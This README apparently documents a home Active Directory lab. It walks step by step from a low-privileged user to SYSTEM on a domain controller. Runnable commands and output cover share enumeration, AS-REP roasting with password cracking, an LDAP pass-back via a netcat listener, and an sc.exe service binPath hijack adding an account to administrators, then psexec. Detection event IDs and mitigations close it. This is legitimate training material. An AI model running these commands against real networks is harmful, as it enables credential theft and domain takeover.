



# Lab 03: Printer Pass-Back → SYSTEM on DC01

## Overview

A basic corporate Active Directory environment with intentionally introduced misconfigurations.
Designed to practice **LDAP Pass-Back** and **Service Binary Hijack** from a low-privileged user to SYSTEM on DC01.

## Topology

```
┌──────────────┐    ┌──────────────┐    ┌──────────────┐
│   DC01       │    │   Printer    │    │   Parrot     │
│ Win Server   │────│   (fake)     │────│   Parrot OS  │
│ 192.168.31.100│   │ 192.168.31.209│   │   DHCP       │
│ DC + AD      │    │  Flask :8000 │    │   Attacker   │
└──────────────┘    └──────────────┘    └──────────────┘
```

## Environment

| Component | Version |
|---|---|
| Domain Controller | Windows Server 2022 |
| Fake Printer | Flask (Python) |
| Attacker | Parrot OS |
| Domain | `corp.local` |
| Subnet | `192.168.31.0/24` |

## Attack Chain

```
reader  →  Public  →  users.txt
        →  AS-REP s.sales  →  Barcelona1
        →  s.sales  →  Sales share  →  print_note.txt
        →  print_note.txt  →  printer (admin:1111)
        →  LDAP Pass-Back  →  svc_printer:Printer2026!
        →  svc_printer  →  Scans share  →  printer_config_backup.xml
        →  svc_scan:Scan2024!
        →  svc_scan  →  Server Operators  →  binPath hijack  →  local admin DC01
        →  psexec  →  SYSTEM on DC01
```

## Accounts

| Name | Sam | Password | Group |
|---|---|---|---|
| Public Reader | reader | Password123 | — |
| Sergey Sales | s.sales | Barcelona1 | Sales_Users |
| Printer Service | svc_printer | Printer2026! | — |
| Scan Service | svc_scan | Scan2024! | Server Operators, Remote Management Users |

## Shares

| Share | Access |
|---|---|
| Public | Domain Users (Read) |
| Sales | Sales_Users (Change) |
| Scans | svc_printer (Full) |

## Vulnerabilities

| # | Vulnerability | Where | MITRE |
|---|---|---|---|
| 1 | AS-REP Roastable | `s.sales` | T1558.004 |
| 2 | Credentials in Files | Sales share | T1552.001 |
| 3 | LDAP Pass-Back | Fake printer | T1557 |
| 4 | Credentials in Files | Scans share (XML) | T1552.001 |
| 5 | Weak Service Permissions | `AppReadiness` on DC01 | T1574.011 |
| 6 | Server Operators abuse | `svc_scan` | T1098 |

## Attack Steps

### 1. Share Enumeration (reader)

**Goal:** find accessible shares and interesting files.

```bash
nxc smb 192.168.31.100 -u reader -p Password123 --shares
```

**Output:**

```
SMB  192.168.31.100  445  DC01  [+] corp.local\reader:Password123
SMB  192.168.31.100  445  DC01  Share           Permissions     Remark
SMB  192.168.31.100  445  DC01  -----           -----------     ------
SMB  192.168.31.100  445  DC01  Public          READ
SMB  192.168.31.100  445  DC01  Sales
SMB  192.168.31.100  445  DC01  Scans           READ
```

**`reader` has `READ` on `Public`. Let's list its contents:**

```bash
smbclient //192.168.31.100/Public -U 'corp.local/reader%Password123'
```

```
smb: \> ls
  .                                   D        0  ...
  ..                                  D        0  ...
  users.txt                           A      103  ...
```

**`users.txt` looks interesting. Download it:**

```
smb: \> get users.txt
getting file \users.txt of size 103 as users.txt
smb: \> exit
```

**Read the file:**

```bash
cat users.txt
```

**Output:**

```
a.admin
i.ivanov
o.finance
p.cash
a.hr
s.sales
m.sales
svc_sql
hr_admin
sys_admin
reader
```

**Result:** user list for AS-REP Roasting.

### 2. AS-REP Roast (s.sales)

**Goal:** obtain AS-REP hash of an account without Kerberos pre-auth.

```bash
GetNPUsers.py corp.local/ -usersfile users.txt -no-pass \
  -dc-ip 192.168.31.100 -format hashcat -outputfile asrep.txt
```

**Output:**

```
$krb5asrep$23$s.sales@CORP.LOCAL:02acdc57d22b4910e408f89181fea9d3$1d3c081b...
[-] User a.admin doesn't have UF_DONT_REQUIRE_PREAUTH set
...
```

**Crack it:**

```bash
cat > hash.txt << 'EOF'
$krb5asrep$23$s.sales@CORP.LOCAL:02acdc57d22b4910e408f89181fea9d3$1d3c081b...
EOF

john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

**Output:**

```
Barcelona1       ($krb5asrep$23$s.sales@CORP.LOCAL)
```

**Result:** `s.sales : Barcelona1`

### 3. Sales Share (s.sales)

**Goal:** enumerate shares available to `s.sales` and look for credentials.

```bash
nxc smb 192.168.31.100 -u s.sales -p Barcelona1 --shares
```

**Output:**

```
SMB  192.168.31.100  445  DC01  [+] corp.local\s.sales:Barcelona1
SMB  192.168.31.100  445  DC01  Share           Permissions     Remark
SMB  192.168.31.100  445  DC01  -----           -----------     ------
SMB  192.168.31.100  445  DC01  Sales           READ,WRITE
SMB  192.168.31.100  445  DC01  Scans           READ
```

**`s.sales` has `READ,WRITE` on `Sales`. Let's list its contents:**

```bash
smbclient //192.168.31.100/Sales -U 'corp.local/s.sales%Barcelona1'
```

```
smb: \> ls
  .                                   D        0  ...
  ..                                  D        0  ...
  print_note.txt                      A      304  ...
```

**`print_note.txt` looks interesting. Download it:**

```
smb: \> get print_note.txt
getting file \print_note.txt of size 304 as print_note.txt
smb: \> exit
```

**Read the file:**

```bash
cat print_note.txt
```

**Output:**

```
=== SALES SHARE ===

Hi Sergey,

New printer in Sales department. Please test it and print the Q3 report.

Printer details:
    IP: 192.168.31.209
    Web interface: http://192.168.31.209:8000

Admin credentials:
    login: admin
    password: 1111

After printing, change the admin password.

-- IT
```

**Result:** `admin : 1111` (printer web UI)

### 4. LDAP Pass-Back (svc_printer)

**Goal:** force the printer to perform an LDAP bind with stored credentials to our IP.

**Setup:**

```bash
# Terminal 1 — LDAP listener
sudo nc -lvnp 389

# Terminal 2 — fake printer
cd /mnt/freedisk/Local-AD-infrastructure/fake-printer
sudo python3 app.py
```

**Exploitation:**

1. Open `http://192.168.31.209:8000`
2. Login `admin:1111`
3. Change **LDAP Server IP** to `192.168.31.209`
4. Click **Test Connection**



**Output (nc terminal):**

```
Listening on 0.0.0.0 389
Connection received on 192.168.31.209 48499
0U`P=cn=svc_printer,ou=ServiceAccounts,ou=Company,dc=corp,dc=local
Printer2026!
```



**Result:** `svc_printer : Printer2026!`

### 5. Scans Share (svc_printer)

**Goal:** find `svc_scan` credentials in the printer XML config.


**Verify `s.sales` no longer has access:**

```bash
smbclient //192.168.31.100/Scans -U 'corp.local/s.sales%Barcelona1'
```

```
smb: \> ls
NT_STATUS_ACCESS_DENIED listing \*
```

**Access as `svc_printer`:**

```bash
nxc smb 192.168.31.100 -u svc_printer -p Printer2026! --shares
```

**Output:**

```
SMB  192.168.31.100  445  DC01  [+] corp.local\svc_printer:Printer2026!
SMB  192.168.31.100  445  DC01  Share           Permissions     Remark
SMB  192.168.31.100  445  DC01  -----           -----------     ------
SMB  192.168.31.100  445  DC01  Scans           READ,WRITE
```

**List contents:**

```bash
smbclient //192.168.31.100/Scans -U 'corp.local/svc_printer%Printer2026!'
```

```
smb: \> ls
  .                                   D        0  ...
  ..                                  D        0  ...
  printer_config_backup.xml           A      788  ...
```

**Download and read:**

```
smb: \> get printer_config_backup.xml
getting file \printer_config_backup.xml of size 788 as printer_config_backup.xml
smb: \> exit
```

```bash
cat printer_config_backup.xml
```

**Output:**

```xml
<LDAP>
  <BindDN>cn=svc_printer,ou=ServiceAccounts,ou=Company,dc=corp,dc=local</BindDN>
  <BindPassword>Printer2026!</BindPassword>
</LDAP>
<ScanToFolder>
  <Server>\\DC01\Scans</Server>
  <Username>CORP\svc_scan</Username>
  <Password>Scan2024!</Password>
</ScanToFolder>
```

**Result:** `svc_scan : Scan2024!`

### 6. binPath Hijack (svc_scan → local admin DC01)

**Goal:** become local admin on DC01 via service binary hijack.

**Verify creds:**

```bash
nxc smb 192.168.31.100 -u svc_scan -p Scan2024!
```

**Output:**

```
SMB  192.168.31.100  445  DC01  [+] corp.local\svc_scan:Scan2024!
```

**Login via evil-winrm:**

```bash
evil-winrm -i 192.168.31.100 -u svc_scan -p Scan2024!
```

**BloodHound shows group membership:**



**Check service:**

```cmd
sc.exe qc AppReadiness
```

**Output:**

```
BINARY_PATH_NAME   : C:\Windows\System32\svchost.exe -k AppReadiness -p
SERVICE_START_NAME : LocalSystem
```

**Check permissions:**

```cmd
sc.exe sdshow AppReadiness
```

**Output:**

```
D:(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)
  (A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)
  (A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;SO)
```

`SO` = Server Operators, `CCDCLCSWRPWPDTLOCRSDRCWDWO` = `SERVICE_ALL_ACCESS`.

**Exploit:**

```cmd
sc.exe config AppReadiness binPath= "cmd.exe /c net localgroup administrators CORP\svc_scan /add"
sc.exe start AppReadiness
```

**Output:**

```
[SC] ChangeServiceConfig SUCCESS
[SC] StartService FAILED 1053: The service did not respond...
```

`1053` is expected — command already executed as SYSTEM.

**Verify:**

```cmd
net localgroup administrators
```

**Output:**

```
Administrator
Domain Admins
Enterprise Admins
svc_scan
```

**Restore service:**

```cmd
sc.exe config AppReadiness binPath= "C:\Windows\System32\svchost.exe -k AppReadiness -p"
sc.exe qc AppReadiness
```

**Result:** `svc_scan` is local admin on DC01.

### 7. SYSTEM on DC01 (psexec)

**Goal:** get SYSTEM on DC01 using psexec.

**Note:** after binPath hijack, the current `svc_scan` token is not updated. Use `psexec` or re-login.

```bash
psexec.py corp.local/svc_scan:'Scan2024!'@192.168.31.100
```

**Output:**

```
[*] Requesting shares on 192.168.31.100.....
[*] Found writable share ADMIN$
[*] Uploading file ...
[*] Opening SVCManager on 192.168.31.100.....
[*] Creating service ...
[*] Starting service .....
Microsoft Windows [Version 10.0.20348.587]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

**Verify:**

```cmd
hostname
```

```
DC01
```

```cmd
whoami /priv
```

**Output:**

```
PRIVILEGES INFORMATION
----------------------
SeAssignPrimaryTokenPrivilege  ...
SeTcbPrivilege                 Enabled
SeBackupPrivilege              Enabled
SeRestorePrivilege             Enabled
SeDebugPrivilege               Enabled
SeImpersonatePrivilege         Enabled
...
```

**Result:** `nt authority\system` on DC01.

## Detection

| Attack | Event ID | Source |
|---|---|---|
| AS-REP Roast | 4768 | DC Security Log |
| Pass-Back | 4624 (Logon Type 3) | DC Security Log |
| binPath modification | 7040 | System Log (DC01) |
| Service start | 7036 | System Log (DC01) |
| Psexec | 7045 | System Log (DC01) |

**What to look for:**

- **4768** with `PreAuthType = 0` — AS-REP Roast.
- **7040** with `binPath` pointing to `cmd.exe` or temp path — binPath hijack.
- **7045** with random service name — `psexec`.

## Mitigation

| Attack | Mitigation |
|---|---|
| AS-REP Roast | Enforce Kerberos Pre-Auth |
| Credentials in Files | No plaintext passwords on shares |
| LDAP Pass-Back | Use LDAPS; Kerberos instead of simple bind |
| binPath hijack | Do not grant `Server Operators` to service accounts |
| Psexec | Disable SMB admin shares; EDR; limit local admins |

## References

- [MITRE ATT&CK](https://attack.mitre.org/)
- [BloodHound](https://github.com/BloodHoundAD/BloodHound)
- [Impacket](https://github.com/fortra/impacket)
- [NetExec](https://github.com/Pennyw0rth/NetExec)

## Status

WIP — chain completed up to **SYSTEM on DC01**.
